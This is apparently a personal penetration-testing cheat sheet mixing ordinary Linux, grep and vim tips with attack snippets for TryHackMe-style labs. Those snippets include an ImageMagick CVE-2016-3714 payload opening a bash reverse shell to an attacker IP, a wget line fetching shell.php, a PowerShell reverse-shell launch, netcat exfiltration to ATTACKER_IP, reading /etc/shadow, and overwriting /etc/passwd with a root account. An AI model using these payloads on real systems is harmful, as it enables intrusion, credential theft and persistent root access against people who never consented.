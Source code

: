 [back](/README.md)

---
#### Spawn a fully interactive shell:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

#### scan rpc port
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```

#### CVE-2016–3714

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```


#### Read file:
```python
xxd -r file.txt 
base64 /etc/shadow | base64 -d
ltrace # is a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.
```
```
`l\s`: Equivalent to `ls`
`wget${IFS}http://10.8.50.72:8000/shell.php`
```

#### if command to long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```

#### Decompress a gzip file:
```sh
gzip -d file.gz
```
#### Change file without vim or nano
```sh
cat > file << EOF 
....
EOF
```

#### php extensions to run revsell
```
.php
.php3
.php4
.php5
.phtml
```

#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
#### NFS share
```
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```

#### socat if open port
```python
./socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```

#### File Transfer on `Netcat`

1. To download a file on the remote shell:

```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```

2. To receive the file on the attacker machine:

```nc
nc -l ATTACKER_PORT > [output_file_path]
```

#### Transfer files using `scp`:

```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
scp -i id_rsa user@$IP:/home/willow/user.jpg . 
```
#### fix PATH in old ubuntu
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
#### mount
```sh
sudo apt install nfs-common
showmount -e $IP
sudo mkdir /mnt/nfs                                                              sudo mount -t nfs $IP:/var/failsafe /mnt/nfs 
```

#### grep
```sh
locate seclist | grep <what>
grep -Rwi "text"
grep -n #numbers
grep -i #do not care abuot regex
grep -c #how many times
grep linux * -r recursive # in all files
точка - это любой символ, -f чтоб точка не считалась любым символом
-v '^#' #begins with
'^$' #пустые строки
-e '^(#|$)' #начинается или с # или с $(пустая строка)
grep -e 'colou?r' # ? makes preveous character optional (то есть и может стоять и нет)
grep -w 'root' # only word root, not asdrootas
\grep #unalias
-A5 #five line after the math
-B5 #before
-C5 #before and after
-e '[0-9]{5,6}/tcp' file.txt #от 5 до 6 цифр от 0 до 9
-E '[0-9]$' #number at the end of line
-E '\s*' # space or tab 
+ # one and more chars
```

---
#### ssh
```
ssh-keygen -t rsa -q -f "$HOME/.ssh/id_rsa" -N ""
```
#### vim
```vim
Shift+H     # Move cursor to the top of the screen.
Shift+M     # Move cursor to the middle of the screen.
Shift+L     # Move cursor to the bottom of the screen.
gj          # Move one line down if text is within one line.
g0          # Move cursor to the start of the current line.
dk          # Delete current line and the line above it.
gq q        # Format selected text into a single block of multiple lines (VAPGQ).
J           # Join lines together (opposite of GQ).
gj          # Join lines without spaces (opposite of J).
gu u        # Convert to lowercase.
gU U        # Convert to uppercase.
~           # Toggle case of current character.
g~ ~        # Toggle case of all characters in the current line.
gf          # Open the file whose name is under the cursor, '^' to go back.
gv          # Return to the previous selection after visual mode.
```
#### [steal admin cookie/sqli](/other/src/marketplace.md) (tryhackme:marketplace)
#### [ohmyweb](./src/omyweb.md)

---